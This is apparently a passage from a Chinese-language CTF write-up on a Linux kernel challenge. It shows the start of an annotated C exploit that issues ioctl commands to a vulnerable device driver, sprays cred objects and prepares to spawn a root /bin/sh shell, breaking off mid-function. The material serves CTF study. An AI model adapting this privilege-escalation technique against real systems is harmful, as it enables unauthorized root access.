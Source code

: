 ```c
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;" // sleep();

    );
}
```

### 解题脚本

带注释的`exp`如下：

```c
#include "ltfallkernel.h"

#define ADD 0xCAFEBABE
#define EDIT 0xF00DBABE

#define VULN_OBJ_SIZE 512
#define VULN_SPRAY_NUM 400

#define CRED_INITIAL_NUM 30
#define CRED_SPRAY_NUM 1066

struct request
{
    long index;
    long size;
    char *content;
};

struct timespec ts = {
    .tv_sec = 0x1000000,
    .tv_nsec = 0};

int dev_fd;
int cmd_pipe_req[2], cmd_pipe_reply[2], check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = {bin_sh_str, NULL};
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";
char failed_str[] = "Failed to win.\n";
char failed_clone_str[] = "Failed to clone.\n";
char prompt_str[] = "Get info.\n";

void alloc(){
    ioctl(dev_fd, ADD);
}

void edit(long index, long size, char* content){
    struct request* t = (struct request*)malloc(sizeof(struct request));
    t->index = index;
    t->size = size;
    t->content = content;
    ioctl(dev_fd, EDIT, t);
}


int __attribute__((naked)) simple_clone(int flags, int (*fn)(void))
{
    /**
     * return: status
     * rdi: clone flags
```